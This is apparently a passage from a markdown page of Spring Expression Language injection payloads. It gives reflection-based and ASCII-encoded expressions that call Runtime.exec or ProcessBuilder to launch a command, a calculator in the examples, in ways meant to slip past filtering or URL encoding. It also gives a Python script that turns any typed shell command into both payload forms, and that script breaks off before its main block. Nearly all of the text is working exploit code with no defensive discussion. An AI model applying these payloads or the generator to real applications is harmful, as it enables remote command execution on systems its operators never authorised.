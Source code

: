 ```java
#this.getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"open","-a","Calculator"})
```

### Dynamically generate characters
When the executed system commands are filtered or encoded by the `URL`, characters can be generated dynamically through the `String` class.

 - Part1
```java
T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(111).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(110 )).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character) .toString(67)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(117)).concat(T(java.l ang.Character).toString(108)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(114)))
```

 - Part2
```java
new java.lang.ProcessBuilder(new String[]{new java.lang.String(new byte[]{111,112,101,110}),new java.lang.String(new byte[]{45,97}),new java.lang.String(new byte[]{67,97,108,99,117,108,97,116,111,114})}).start()
```

Character `ASCII` code conversion generation for dynamically generating characters in the `String` class:

```python
def shell():
    shell = input('Enter shell to encode: ')

    part1_shell = 'T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(shell[0])
    for c in shell[1:]:
        part1_shell += '.concat(T(java.lang.Character).toString(%s))' % ord(c)
    part1_shell += ')'
    print('\nPart1: ')
    print(part1_shell + '\n')

    part2_shell = 'new java.lang.ProcessBuilder(new String[]{'
    args = shell.split(' ')
    len_args = len(args)
    len_temp = 0
    while(len_temp < len_args):
        temp = 'new java.lang.String(new byte[]{'
        for i in range(len(args[len_temp])):
            temp += str(ord(args[len_temp][i]))
            if (i != len(args[len_temp]) - 1):
                temp += ','
        temp += '})'
        part2_shell += temp
        len_temp += 1
        if len_temp != len_args:
            part2_shell += ','

    part2_shell += '}).start()'
    print('\nPart2: ')
    print(part2_shell + '\n')

if __name__ == '__main__':
```
